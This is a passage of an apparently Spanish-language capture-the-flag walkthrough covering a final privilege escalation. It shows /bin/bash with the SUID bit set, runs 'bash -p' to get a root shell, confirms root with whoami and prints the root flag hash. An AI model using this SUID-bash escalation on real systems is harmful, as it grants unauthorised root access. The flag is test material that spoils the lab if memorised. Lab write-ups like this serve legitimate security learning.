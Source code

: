 Info:

```
###################
ip address
###################

Permisos establecidos de forma correcta!
###################
hosts
###################
..........................<RESTO_CODIGO>.........................................
```

Ahora vamos a comprobar que esta bien ejecutado:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1168776 Apr 17  2019 /bin/bash
```

Vemos que funciono, por lo que vamos a ejecutar esto otro para obtener el usuario `root`:

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Con esto veremos que somos `root` por lo que leeremos la `flag` del usuario `root`.

> root.txt

```
dfb7f604a22928afba370d819b35ec83
```
